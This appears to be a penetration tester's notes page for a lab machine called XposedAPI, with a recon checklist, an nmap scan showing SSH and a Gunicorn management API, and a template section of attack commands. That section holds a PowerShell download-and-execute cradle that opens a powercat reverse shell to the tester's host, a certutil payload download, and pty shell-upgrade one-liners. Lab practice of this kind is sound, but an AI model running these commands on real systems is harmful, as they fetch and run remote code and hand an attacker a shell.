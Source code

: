 ```yaml
---
date created: 2023-09-18 23:07
---
```


# XposedAPI - 192.168.214.134

Recon:

- [ ] AutoRecon
- [ ] nmap
- [ ] nmap udp
- [ ] validate each finding with nc
- [ ] check versions in exploit-db

Web:

- [ ] robots.txt / sitemap.xml
- [ ] Default credentials
- [ ] gobuster / wfuzz
- [ ] Burpsuite
- [ ] Check versions
- [ ] Check file extensions in wfuzz

**File Transfers**

```shell
powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://$myip:8000/tools/windows/powercat.ps1');powercat -c 192.168.45.165 -p 8001 powershell

certutil -urlcache -split -f http://$myip:8000/tools/windows/powercat.ps1 powercat.ps1
```

**Shell Upgrades**

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"

stty raw -echo; fg; reset
```

### Nmap Scan

```shell
nmap -sS -sV -sC --open -p- $IP
```

```shell
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
13337/tcp open  http    Gunicorn 20.0.4
|_http-title: Remote Software Management API
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
